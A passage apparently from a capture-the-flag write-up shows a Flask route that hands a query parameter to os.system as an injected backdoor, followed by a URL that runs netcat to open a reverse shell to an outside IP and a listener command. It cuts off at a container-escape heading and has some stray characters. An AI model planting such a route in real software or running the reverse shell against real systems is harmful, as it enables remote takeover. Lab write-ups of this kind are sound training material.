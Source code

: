 ```python
@app.route('/exec')
def cmd():
    return os.system(request.args.get('cmd'))
```

Then, we intercept the request through Burp Suite and upload the modified file:

We got the RCE, now we can deploy the reverse shell.

<figure><img src="http://localhost:1313/opensource/media5.png" alt=""><figcaption></figcaption></figure>

**Victim** :&#x20;

```url
http://source.htb/exec?cmd=nc%2010.10.16.2%20%201337%20-e%20/bin/sh
```

**Attacker:**&#x20;

```bash
nc -nlvp 1337PYTHT
```



### Container escape <a href="#container-escape" id="container-escape"></a>
